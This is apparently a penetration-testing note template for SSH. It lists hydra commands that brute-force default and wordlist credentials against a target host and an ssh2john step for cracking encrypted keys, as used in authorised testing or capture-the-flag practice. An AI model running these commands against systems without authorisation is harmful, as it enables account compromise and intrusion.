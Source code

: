 <% tp.file.rename("1_SSH_")%>

- [ ] Banner grabbed: 
- [ ] Bad keys? (https://github.com/rapid7/ssh-badkeys)

## Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s $hport
```

For a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt ssh://$hip$ -V -t 4 -I -s 22
```

## Encrypted SSH Key
```bash
ssh2john $file > id_rsa.hash
```
With this, you can pass id_rsa.hash to john as regular. See [[8_Hashes_cheatsheet]]


# Findings